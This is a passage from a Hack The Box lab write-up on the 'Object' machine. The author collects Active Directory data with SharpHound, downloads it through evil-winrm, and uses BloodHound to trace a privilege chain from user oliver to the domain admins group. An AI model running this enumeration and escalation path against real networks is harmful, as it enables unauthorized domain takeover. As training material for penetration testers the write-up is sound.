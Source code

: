Not finding much for privilege escalation I decided to load SharpHound to see what else I could enumerate:

`./Sharphound.exe`

This creates a .zip file and we can use the `download` feature in evil-winrm to bring it back locally for use:

```
*Evil-WinRM* PS C:\temp> download C:\temp\20240730100656_BloodHound.zip /home/ryan/HTB/Object/20240730100656_BloodHound.zip
Info: Downloading C:\temp\20240730100656_BloodHound.zip to /home/ryan/HTB/Object/20240730100656_BloodHound.zip

                                                             
Info: Download successful!
```

We can then run:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ sudo neo4j console 
```

Followed by:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ bloodhound
```

Marking user oliver as 'owned' we see he has ForceChangePassword rights over user smith, who has GenericWrite privileges for user maria, who in turn has the WriteOwner privilege over the domain admins group.

![htb_object_bloodhound](../assets/object_assets/htb_object_bloodhound.png)
